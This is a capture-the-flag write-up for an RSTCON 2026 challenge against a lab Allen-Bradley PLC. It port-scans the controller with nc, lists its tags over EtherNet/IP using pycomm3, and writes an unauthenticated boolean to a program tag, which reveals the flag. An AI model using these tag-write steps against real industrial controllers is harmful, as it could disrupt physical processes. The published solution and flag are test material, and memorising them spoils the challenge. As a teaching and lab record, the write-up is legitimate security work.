


## Ladder Logic / Project


## Completion of Challenge

```bash
➜  RSTCON-CTF-2026 git:(main) ✗ ping 192.168.100.10  
PING 192.168.100.10 (192.168.100.10) 56(84) bytes of data.  
64 bytes from 192.168.100.10: icmp_seq=1 ttl=64 time=10.9 ms


➜  RSTCON-CTF-2026 git:(main) ✗ nc -zv -w 5 192.168.100.10 80  
Ncat: Version 7.92 ( https://nmap.org/ncat )  
Ncat: Connected to 192.168.100.10:80.

➜  RSTCON-CTF-2026 git:(main) ✗ nc -zv -w 5 192.168.100.10 44818  
Ncat: Version 7.92 ( https://nmap.org/ncat )  
Ncat: Connected to 192.168.100.10:44818.

➜  RSTCON-CTF-2026 git:(main) ✗ nc -zv -w 5 192.168.100.10 2222    
Ncat: Version 7.92 ( https://nmap.org/ncat )  
Ncat: Connection refused.

➜  RSTCON-CTF-2026 git:(main) ✗ nc -zuv 192.168.100.10 44818  
Ncat: Version 7.92 ( https://nmap.org/ncat )  
Ncat: Connected to 192.168.100.10:44818.  
```

Note that implicit I/O tcp/2222 is not available.


Asked AI if allen-bradley webpage gives insight into the program and how to manipulate it, clear no, moving on to ENIP/CIP vector


```python
➜  ~ python3 -m venv .venv/  
➜  ~ source .venv/bin/activate  
(.venv) ➜  ~ python3 -m pip install pycomm3  
Collecting pycomm3  
 Downloading pycomm3-1.2.16-py3-none-any.whl.metadata (13 kB)  
Downloading pycomm3-1.2.16-py3-none-any.whl (99 kB)  
Installing collected packages: pycomm3  
Successfully installed pycomm3-1.2.16
```

```python
from pycomm3 import LogixDriver

plc_ip = "192.168.100.10"

with LogixDriver(plc_ip) as plc:
  tags = plc.get_tag_list(program="*")

  print(f"Total tags found: {len(tags)}\n")
  for tag in tags:
    print(f"Tag: {tag['tag_name']} | Type: {tag['data_type']}")
```

```bash
Total tags found: 8

Tag: Local:2:I | Type: {'name': 'AB:Embedded_OB16:I:0', 'internal_tags': {'Fault': {'offset': 0, 'tag_type': 'atomic', 'data_type': 'DINT', 'data_type_name': 'DINT', 'array': 0, 'type_class': DINT}, 'ReadBack': {'offset': 4, 'tag_type': 'atomic', 'data_type': 'INT', 'data_type_name': 'INT', 'array': 0, 'type_class': INT}}, 'attributes': ['Fault', 'ReadBack'], 'template': {'object_definition_size': 20, 'structure_size': 8, 'member_count': 2, 'structure_handle': 64523}, '_struct_members': ([(DINT(name='Fault'), 0), (INT(name='ReadBack'), 4)], {}), 'type_class': StructTag(DINT(name='Fault'), INT(name='ReadBack'), bool_members={},  struct_size=8)}
Tag: Local:2:C | Type: {'name': 'AB:Embedded_OB16:C:0', 'internal_tags': {'CfgSize': {'offset': 0, 'tag_type': 'atomic', 'data_type': 'DINT', 'data_type_name': 'DINT', 'array': 0, 'type_class': DINT}, 'CfgIDNum': {'offset': 4, 'tag_type': 'atomic', 'data_type': 'DINT', 'data_type_name': 'DINT', 'array': 0, 'type_class': DINT}, 'Reserved': {'offset': 8, 'tag_type': 'atomic', 'data_type': 'DINT', 'data_type_name': 'DINT', 'array': 0, 'type_class': DINT}, 'Config': {'offset': 12, 'tag_type': 'atomic', 'data_type': 'INT', 'data_type_name': 'INT', 'array': 0, 'type_class': INT}, 'ProgToFaultEn': {'offset': 12, 'tag_type': 'atomic', 'data_type': 'BOOL', 'data_type_name': 'BOOL', 'bit': 0, 'type_class': BOOL}, 'ProgMode': {'offset': 14, 'tag_type': 'atomic', 'data_type': 'INT', 'data_type_name': 'INT', 'array': 0, 'type_class': INT}, 'ProgValue': {'offset': 16, 'tag_type': 'atomic', 'data_type': 'INT', 'data_type_name': 'INT', 'array': 0, 'type_class': INT}, 'FaultMode': {'offset': 18, 'tag_type': 'atomic', 'data_type': 'INT', 'data_type_name': 'INT', 'array': 0, 'type_class': INT}, 'FaultValue': {'offset': 20, 'tag_type': 'atomic', 'data_type': 'INT', 'data_type_name': 'INT', 'array': 0, 'type_class': INT}}, 'attributes': ['CfgSize', 'CfgIDNum', 'Reserved', 'Config', 'ProgToFaultEn', 'ProgMode', 'ProgValue', 'FaultMode', 'FaultValue'], 'template': {'object_definition_size': 55, 'structure_size': 24, 'member_count': 9, 'structure_handle': 26425}, '_struct_members': ([(DINT(name='CfgSize'), 0), (DINT(name='CfgIDNum'), 4), (DINT(name='Reserved'), 8), (INT(name='Config'), 12), (INT(name='ProgMode'), 14), (INT(name='ProgValue'), 16), (INT(name='FaultMode'), 18), (INT(name='FaultValue'), 20)], {'ProgToFaultEn': (12, 0)}), 'type_class': StructTag(DINT(name='CfgSize'), DINT(name='CfgIDNum'), DINT(name='Reserved'), INT(name='Config'), INT(name='ProgMode'), INT(name='ProgValue'), INT(name='FaultMode'), INT(name='FaultValue'), bool_members={'ProgToFaultEn': (12, 0)},  struct_size=24)}
Tag: Local:2:O | Type: {'name': 'AB:Embedded_OB16:O:0', 'internal_tags': {'Data': {'offset': 0, 'tag_type': 'atomic', 'data_type': 'INT', 'data_type_name': 'INT', 'array': 0, 'type_class': INT}}, 'attributes': ['Data'], 'template': {'object_definition_size': 15, 'structure_size': 4, 'member_count': 1, 'structure_handle': 58153}, '_struct_members': ([(INT(name='Data'), 0)], {}), 'type_class': StructTag(INT(name='Data'), bool_members={},  struct_size=4)}
Tag: Local:1:C | Type: {'name': 'AB:Embedded_IQ16F:C:0', 'internal_tags': {'CfgSize': {'offset': 0, 'tag_type': 'atomic', 'data_type': 'DINT', 'data_type_name': 'DINT', 'array': 0, 'type_class': DINT}, 'CfgIDNum': {'offset': 4, 'tag_type': 'atomic', 'data_type': 'DINT', 'data_type_name': 'DINT', 'array': 0, 'type_class': DINT}, 'Reserved': {'offset': 8, 'tag_type': 'atomic', 'data_type': 'DINT', 'data_type_name': 'DINT', 'array': 0, 'type_class': DINT}, 'FilterGroup0': {'offset': 12, 'tag_type': 'atomic', 'data_type': 'SINT', 'data_type_name': 'SINT', 'array': 0, 'type_class': SINT}, 'Filter0OffOn_0': {'offset': 12, 'tag_type': 'atomic', 'data_type': 'BOOL', 'data_type_name': 'BOOL', 'bit': 0, 'type_class': BOOL}, 'Filter0OffOn_1': {'offset': 12, 'tag_type': 'atomic', 'data_type': 'BOOL', 'data_type_name': 'BOOL', 'bit': 1, 'type_class': BOOL}, 'Filter0OffOn_2': {'offset': 12, 'tag_type': 'atomic', 'data_type': 'BOOL', 'data_type_name': 'BOOL', 'bit': 2, 'type_class': BOOL}, 'Filter0OffOn_3': {'offset': 12, 'tag_type': 'atomic', 'data_type': 'BOOL', 'data_type_name': 'BOOL', 'bit': 3, 'type_class': BOOL}, 'Filter0OnOff_4': {'offset': 12, 'tag_type': 'atomic', 'data_type': 'BOOL', 'data_type_name': 'BOOL', 'bit': 4, 'type_class': BOOL}, 'Filter0OnOff_5': {'offset': 12, 'tag_type': 'atomic', 'data_type': 'BOOL', 'data_type_name': 'BOOL', 'bit': 5, 'type_class': BOOL}, 'Filter0OnOff_6': {'offset': 12, 'tag_type': 'atomic', 'data_type': 'BOOL', 'data_type_name': 'BOOL', 'bit': 6, 'type_class': BOOL}, 'Filter0OnOff_7': {'offset': 12, 'tag_type': 'atomic', 'data_type': 'BOOL', 'data_type_name': 'BOOL', 'bit': 7, 'type_class': BOOL}, 'FilterGroup1': {'offset': 13, 'tag_type': 'atomic', 'data_type': 'SINT', 'data_type_name': 'SINT', 'array': 0, 'type_class': SINT}, 'Filter1OffOn_0': {'offset': 13, 'tag_type': 'atomic', 'data_type': 'BOOL', 'data_type_name': 'BOOL', 'bit': 0, 'type_class': BOOL}, 'Filter1OffOn_1': {'offset': 13, 'tag_type': 'atomic', 'data_type': 'BOOL', 'data_type_name': 'BOOL', 'bit': 1, 'type_class': BOOL}, 'Filter1OffOn_2': {'offset': 13, 'tag_type': 'atomic', 'data_type': 'BOOL', 'data_type_name': 'BOOL', 'bit': 2, 'type_class': BOOL}, 'Filter1OffOn_3': {'offset': 13, 'tag_type': 'atomic', 'data_type': 'BOOL', 'data_type_name': 'BOOL', 'bit': 3, 'type_class': BOOL}, 'Filter1OnOff_4': {'offset': 13, 'tag_type': 'atomic', 'data_type': 'BOOL', 'data_type_name': 'BOOL', 'bit': 4, 'type_class': BOOL}, 'Filter1OnOff_5': {'offset': 13, 'tag_type': 'atomic', 'data_type': 'BOOL', 'data_type_name': 'BOOL', 'bit': 5, 'type_class': BOOL}, 'Filter1OnOff_6': {'offset': 13, 'tag_type': 'atomic', 'data_type': 'BOOL', 'data_type_name': 'BOOL', 'bit': 6, 'type_class': BOOL}, 'Filter1OnOff_7': {'offset': 13, 'tag_type': 'atomic', 'data_type': 'BOOL', 'data_type_name': 'BOOL', 'bit': 7, 'type_class': BOOL}, 'Pad1': {'offset': 14, 'tag_type': 'atomic', 'data_type': 'INT', 'data_type_name': 'INT', 'array': 0, 'type_class': INT}, 'Pad2': {'offset': 16, 'tag_type': 'atomic', 'data_type': 'INT', 'data_type_name': 'INT', 'array': 0, 'type_class': INT}, 'Pad3': {'offset': 18, 'tag_type': 'atomic', 'data_type': 'INT', 'data_type_name': 'INT', 'array': 0, 'type_class': INT}}, 'attributes': ['CfgSize', 'CfgIDNum', 'Reserved', 'FilterGroup0', 'Filter0OffOn_0', 'Filter0OffOn_1', 'Filter0OffOn_2', 'Filter0OffOn_3', 'Filter0OnOff_4', 'Filter0OnOff_5', 'Filter0OnOff_6', 'Filter0OnOff_7', 'FilterGroup1', 'Filter1OffOn_0', 'Filter1OffOn_1', 'Filter1OffOn_2', 'Filter1OffOn_3', 'Filter1OnOff_4', 'Filter1OnOff_5', 'Filter1OnOff_6', 'Filter1OnOff_7', 'Pad1', 'Pad2', 'Pad3'], 'template': {'object_definition_size': 148, 'structure_size': 20, 'member_count': 24, 'structure_handle': 19761}, '_struct_members': ([(DINT(name='CfgSize'), 0), (DINT(name='CfgIDNum'), 4), (DINT(name='Reserved'), 8), (SINT(name='FilterGroup0'), 12), (SINT(name='FilterGroup1'), 13), (INT(name='Pad1'), 14), (INT(name='Pad2'), 16), (INT(name='Pad3'), 18)], {'Filter0OffOn_0': (12, 0), 'Filter0OffOn_1': (12, 1), 'Filter0OffOn_2': (12, 2), 'Filter0OffOn_3': (12, 3), 'Filter0OnOff_4': (12, 4), 'Filter0OnOff_5': (12, 5), 'Filter0OnOff_6': (12, 6), 'Filter0OnOff_7': (12, 7), 'Filter1OffOn_0': (13, 0), 'Filter1OffOn_1': (13, 1), 'Filter1OffOn_2': (13, 2), 'Filter1OffOn_3': (13, 3), 'Filter1OnOff_4': (13, 4), 'Filter1OnOff_5': (13, 5), 'Filter1OnOff_6': (13, 6), 'Filter1OnOff_7': (13, 7)}), 'type_class': StructTag(DINT(name='CfgSize'), DINT(name='CfgIDNum'), DINT(name='Reserved'), SINT(name='FilterGroup0'), SINT(name='FilterGroup1'), INT(name='Pad1'), INT(name='Pad2'), INT(name='Pad3'), bool_members={'Filter0OffOn_0': (12, 0), 'Filter0OffOn_1': (12, 1), 'Filter0OffOn_2': (12, 2), 'Filter0OffOn_3': (12, 3), 'Filter0OnOff_4': (12, 4), 'Filter0OnOff_5': (12, 5), 'Filter0OnOff_6': (12, 6), 'Filter0OnOff_7': (12, 7), 'Filter1OffOn_0': (13, 0), 'Filter1OffOn_1': (13, 1), 'Filter1OffOn_2': (13, 2), 'Filter1OffOn_3': (13, 3), 'Filter1OnOff_4': (13, 4), 'Filter1OnOff_5': (13, 5), 'Filter1OnOff_6': (13, 6), 'Filter1OnOff_7': (13, 7)},  struct_size=20)}
Tag: Local:1:I | Type: {'name': 'AB:Embedded_IQ16F:I:0', 'internal_tags': {'Fault': {'offset': 0, 'tag_type': 'atomic', 'data_type': 'DINT', 'data_type_name': 'DINT', 'array': 0, 'type_class': DINT}, 'Data': {'offset': 4, 'tag_type': 'atomic', 'data_type': 'INT', 'data_type_name': 'INT', 'array': 0, 'type_class': INT}}, 'attributes': ['Fault', 'Data'], 'template': {'object_definition_size': 19, 'structure_size': 8, 'member_count': 2, 'structure_handle': 1213}, '_struct_members': ([(DINT(name='Fault'), 0), (INT(name='Data'), 4)], {}), 'type_class': StructTag(DINT(name='Fault'), INT(name='Data'), bool_members={},  struct_size=8)}
Tag: Program:MainProgram.Timer_1 | Type: {'name': 'TIMER', 'internal_tags': {'CTL': {'offset': 0, 'tag_type': 'atomic', 'data_type': 'DWORD', 'data_type_name': 'DWORD', 'array': 0, 'type_class': DWORD}, 'PRE': {'offset': 4, 'tag_type': 'atomic', 'data_type': 'DINT', 'data_type_name': 'DINT', 'array': 0, 'type_class': DINT}, 'ACC': {'offset': 8, 'tag_type': 'atomic', 'data_type': 'DINT', 'data_type_name': 'DINT', 'array': 0, 'type_class': DINT}, 'EN': {'offset': 3, 'tag_type': 'atomic', 'data_type': 'BOOL', 'data_type_name': 'BOOL', 'bit': 7, 'type_class': BOOL}, 'TT': {'offset': 3, 'tag_type': 'atomic', 'data_type': 'BOOL', 'data_type_name': 'BOOL', 'bit': 6, 'type_class': BOOL}, 'DN': {'offset': 3, 'tag_type': 'atomic', 'data_type': 'BOOL', 'data_type_name': 'BOOL', 'bit': 5, 'type_class': BOOL}}, 'attributes': ['PRE', 'ACC', 'EN', 'TT', 'DN'], 'template': {'object_definition_size': 24, 'structure_size': 12, 'member_count': 6, 'structure_handle': 3971}, '_struct_members': ([(DWORD(name='CTL'), 0), (DINT(name='PRE'), 4), (DINT(name='ACC'), 8)], {'EN': (3, 7), 'TT': (3, 6), 'DN': (3, 5)}), 'type_class': StructTag(DWORD(name='CTL'), DINT(name='PRE'), DINT(name='ACC'), bool_members={'EN': (3, 7), 'TT': (3, 6), 'DN': (3, 5)},  struct_size=12)}
Tag: Program:MainProgram.AreYou1337 | Type: BOOL
Tag: Program:MainProgram.Toggle | Type: BOOL
```

Toggle is left over from testing, attempting to flip the bool on this tag will not result in any changes.


```python
from pycomm3 import LogixDriver

with LogixDriver('192.168.100.10') as plc:
    plc.write('AreYou1337', True)
```


Need to scope it to MainProgram

```python
from pycomm3 import LogixDriver

with LogixDriver('192.168.100.10') as plc:
    plc.write('Program:MainProgram.AreYou1337', True)
```


The light will then turn on for 3 seconds, allowing contestant to write the flag down or take a picture. 





`rstcon{Not_Thinking_Logixally}`